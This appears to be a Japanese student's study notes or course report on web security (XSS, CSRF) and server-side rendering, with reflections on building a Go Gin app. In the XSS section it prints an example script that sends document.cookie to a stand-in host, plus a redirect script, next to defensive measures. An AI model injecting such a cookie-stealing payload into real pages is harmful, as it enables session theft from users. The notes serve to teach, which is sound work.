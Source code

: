 参考: 詳解セキュリティコンテスト 8章 XSS, CSP, CSRF

- XSS (Cross Site Scripting)

  - XSS とは、Web アプリケーションに対して、意図しない JavaScript を注入する攻撃手法のこと
  - XSS を行うと、クライアントの Cookie を盗み出したり、クライアントの Cookie を改ざんしたりすることができる

  具体例: `<script> document.location = 'http://example.com/?cookie=' + document.cookie </script>` という JavaScript がクライアント側で実行されると、クライアントの Cookie が `http://example.com/?cookie=...` に送信されてしまう。example.com を攻撃者の所有するサーバーにすることで、クライアントの Cookie を盗み出すことができる。

  もしくは、`<script> window.location = 'http://example.com/ </script>` という JavaScriptを埋め込むことに成功すると、そこを訪れたユーザーを任意のサイトに飛ばすことができる。

  - 対策:

    - 開発者としては、ユーザーからの入力をそのまま HTML に埋め込まないようにする。具体的には、エスケープ処理や、バリデーションを行うことが考えられる。

- CSRF (Cross Site Request Forgery)

  - XSS との相違点は、クライアント側がログインしている正規のサービスに対して、意図しないリクエストを送信することで、攻撃を行う点である。XSSの場合は、Cookieなどクライント側の情報を盗み出したり、別サイトに誘導したりする形であったが、CSRFの場合は、クライアントがログインしている正規のサービスに対してユーザーの意図に反したリクエストを送ってしまう攻撃手法となっている。

  - 対策
    - Referer チェック
      - リクエストの Referer ヘッダーをチェックして、リクエストが正規のサービスから送信されたものかどうかを確認する
    - 確認
      - センシティブな操作(例: ユーザーの削除)を行う前に、ユーザーに確認を求める

#### 3.4 Server Side Rendering

- SSR (Server Side Rendering)
  - SSR とは、クライアント側で HTML を生成するのではなく、サーバー側で HTML を生成することのこと
  - 利点:

    CSR(Client Side Rendering)と異なり、サーバー側で HTML を生成するため、SEO に強い。また、SSG(Static Site Generation)(近年は SG))とは異なり静的なサイトだけでなく、動的なサイトにも適応できる。

    さらに低スペック端末においても、ユーザー体験が損なわれにくい。（CSRのようにクライアントでレンダリングしないため）

  - 欠点:

    CSR と比べてサーバー側で HTML を生成するため、サーバーの負荷が高くなる。(金銭的な負担大)

#### 3.5 自由記述欄

- 学べたこと

  Go GinでのWeb Application開発をした経験がなかったため、Go周りの知識が身についた。

  また、「詳解セキュリティコンテスト」を積読していたので、その本を読みながら、Web Applicationセキュリティについても学ぶことができた。

- 心残り

  実装工数などから断念したが、Backend: Go Gin, Frontend: React, Database: MySQLを使って、Web Applicationを作成することを目指していた。実際、[GitHub: okoge-kaz/golang-todo-application](https://github.com/okoge-kaz/golang-todo-application)にて作成したいた。

  SQL操作についても、sqlxではなくgormを使うなど、講義とは異なる方法での実装を試していた。

  また、バックエンドはHTMLを返すことはなく、あくまでAPIサーバーとしての役割を果たすことを意識して実装をしたいた。また、Railsライクなディレクトリ構成を意識して、`controllers/, models/, helpers/`などのディレクトリを作成してコードの整理を行っていた。
